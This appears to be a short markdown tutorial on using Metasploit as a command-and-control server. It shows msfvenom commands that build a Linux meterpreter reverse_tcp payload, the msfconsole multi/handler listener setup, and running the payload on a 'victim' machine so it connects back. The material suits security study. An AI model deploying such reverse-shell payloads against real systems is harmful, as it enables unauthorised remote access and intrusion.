

# Metasploit as C2 

### Installation 

Goto [Metasploit](https://www.metasploit.com/download) Website and choose the Platform you want to download.
Currently it is availible for,   
* Windows
* MacOS
* Linux
---
### Creating the payload

Once you have installed metasploit framework, we can create the payload for the Victim. 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=127.0.0.1 -f elf -o output`
> **Command Description**  
> msfvenom - is a combination of msfpayload and msfencode, single tool to create and encode payloads.  

>-p  - Select the payload to use. In this case we chose x86 Linux and Reverse TCP as the connection type. There are multiple types of payloads in msfvenom, for example,
> * Reverse TCP - connects back to the attacker once executed.
> * Bind TCP - listens to the TCP connection
> * Reverse HTTP - Insteasd of using TCP, tunnel the traffic through HTTP
> * for more payloads `msfvenom -l payloads` in the command line 
 

  

>-LHOST - Attacker IP to connect back. In this case its the localhost IP. 

> -f - type of file format, this example is for Executable and linking format(ELF). There are multiple formats to export from scripts to multiple executables. for more `msfvenom --list formats`   

> -o - output file name 

---
### Creating a lister on Attacker Machine

Turn on the Metaspoilt Framework.  
`msfconsole` 

Then we create a listener for our reverse TCP payload.For that we use `use exploit/multi/handler` in msfconsole. 

Then we have to configure what kind of payload we have created for the Victim Machine.  
`set PAYLOAD linux/x86/meterpreter/reverse_tcp`

Then set LHOST as 127.0.0.1, our  loopback address by  
`set LHOST 127.0.0.1`
 

Then we can execute the listener by running the command `exploit` or `run`.

  

---
### Preparing and Executing the payload in the Victim Machine

> **Note** : We target a linux x86 machine in this example.

First you have to make it a executable. Locate the file in the victims machine. 

`chmod +x output`

Then we can run the payload by  

`./output`

---

### Connection

The payload will automatically will connect back to the attacker. 

